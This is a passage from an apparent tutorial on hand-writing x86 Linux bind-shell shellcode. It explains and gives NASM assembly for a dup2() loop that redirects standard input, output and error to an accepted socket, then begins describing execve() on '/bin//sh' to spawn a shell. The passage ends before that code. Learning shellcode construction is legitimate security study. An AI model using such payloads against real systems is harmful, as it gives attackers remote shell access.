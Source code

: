 ```C
int dup2(int oldfd, int newfd);
```

`oldfd` is basically peer socket file descriptor, hence we will store `EAX` content in `EBX` from `accept()`. `newfd` is where we specify new file descriptors. Let’s update `dup2()`.

```C
int dup2(int EBX, int <0, 1, 2>);
```

Let’s get `dup2()` syscall id `EAX`.

```sh
root@falafel:~/Desktop# cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup2
#define __NR_dup2 63
root@falafel:~/Desktop# 
```

Coding we shall

```nasm
    ;
    ;dup2() code block
    ; 

    ; store EAX in EBX for peer socketfd from accept()
    xchg eax, ebx

    ; reset ECX (counter register) for newfd loop
    xor ecx, ecx

    ; set counter to 2
    add cl, 0x2

    ; loop for stdin, stdout, and stderr
    ; syscall for __NR_dup2 63
    ; ping kernel 3 times!

dup:
    mov al, 0x3f
    int 0x80
    dec cl
    jns dup
```

execve()
--------
`execve()` syscall basically execute a binary and/or script, and it consist of three arguments as shown below.

```C
int execve(const char *filename, char *const argv[], char *const envp[]);
```

filename is the pointer to the binary to be executed `/bin//sh` in our case, now the reason we went with `/bin//sh` instead of usual `/bin/sh` is the fact we need to push 8 bytes without effecting the executable. The second argument `argv[]` is an array of arguments to be passed on to the binary as strings, the first argument must contain the address of executable in question `argv[0]`. The last argument `envp[]` is an array of strings to be passed on to executable environment, we’re not going to use any and will go with `0`. Let’s update `execve()`.
